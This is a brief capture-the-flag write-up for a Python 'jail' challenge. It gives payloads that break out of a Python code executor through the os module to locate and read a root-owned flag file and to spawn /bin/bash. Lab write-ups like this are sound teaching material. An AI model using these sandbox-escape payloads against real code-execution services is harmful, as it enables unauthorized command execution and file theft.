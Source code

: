 # Prison Break Part 2
## Jail

> This feels like a whole different world
> 
> nc 128.199.77.173 1342

### Files
- N/A

### Analysis
Participants were expected to figure out that this was also a Python code executor.<br/>
Instead of accessing a variable, the challenge required participants to break out of the Python environment to access the flag by using the OS module.

### Solution
1. To locate the flag file<br/>
  ```print(os.system("locate flag.txt"))```

2. Gaining root access to the container or directly reading the file<br/>
  ```print(os.system("/bin/bash"))``` or ```print(os.read(os.open('/root/src/flag.txt', os.O_RDONLY),100))```

